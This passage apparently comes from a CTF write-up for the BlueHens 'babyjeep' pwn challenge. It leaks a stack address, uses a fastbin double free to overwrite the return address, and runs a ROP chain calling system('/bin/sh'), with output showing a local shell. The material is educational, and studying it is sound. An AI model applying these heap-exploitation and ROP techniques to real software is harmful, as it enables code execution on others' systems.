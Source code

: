 ```py  
stack_leak = p.recvuntil(b"Malloc")

stack_leak = u64(stack_leak[1:9])  
ret = stack_leak - 0x110 - 0x43  
```

That being done, we can now move on to the `get_shell` part since from here we
have the `ret` address, we can just do double free again and overwrite the
return address, getting the RIP control.

# Get Shell

Now, we will fix the chunks again by allocating the `0x71` chunks:-

```py  
malloc(0,0x60,b"A")  
malloc(1,0x60,b"B")  
malloc(2,0x60,b"C")  
malloc(3,0x60,b"A")  
malloc(4,0x60,b"B")  
malloc(5,0x60,b"C")

free(0)  
free(2)  
free(0)  
```

Now, we will just put the `ret` at `fd` of the `chunk[0]` also sufficing the
size check done by the `malloc` so no exceptions happen, now we will just
allocate chunks and overwrite the `ret` with a simple ROP chain:-

```py  
malloc(0,0x60,p64(ret))  
malloc(5,0x60,"A")  
malloc(2,0x60,"B")  
malloc(3,0x60,b"A"*19+p64(pop_rdi)+p64(binsh)+p64(system))  
```

Now, we will get the shell:-

```r  
1 [14:58:13] vagrant@oracle(oracle) babyjeep> python3 xpl.py  
[+] Starting local process './main': pid 3162  
[*] '/media/sf_Pwning/CTFs/BlueHens/pwn/babyjeep/libc.so.6'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] HEAP:  0x563be9d8a050  
[*] LIBC:  0x7f93bf897000  
[*] ret :  0x7ffc3adc4215  
[*] Switching to interactive mode  
$ whoami  
vagrant  
$ ls -la  
total 20176  
drwxrwxr-x 1 vagrant vagrant     4096 Mar 26 14:58 .  
drwxrwxr-x 1 vagrant vagrant     4096 Mar 21 16:00 ..  
-rw------- 1 vagrant vagrant  4472832 Mar 26 14:58 core  
-rw-r--r-- 1 vagrant vagrant 16603959 Mar 25 16:51 gadgets.lst  
-rwxrwxr-x 1 vagrant vagrant  1868984 Mar 20 22:50 libc.so.6  
-rwxrwxr-x 1 vagrant vagrant    17344 Mar 20 22:51 main  
-rw-rw-r-- 1 vagrant vagrant     2502 Mar 26 14:58 xpl.py  
$  
[*] Interrupted  
```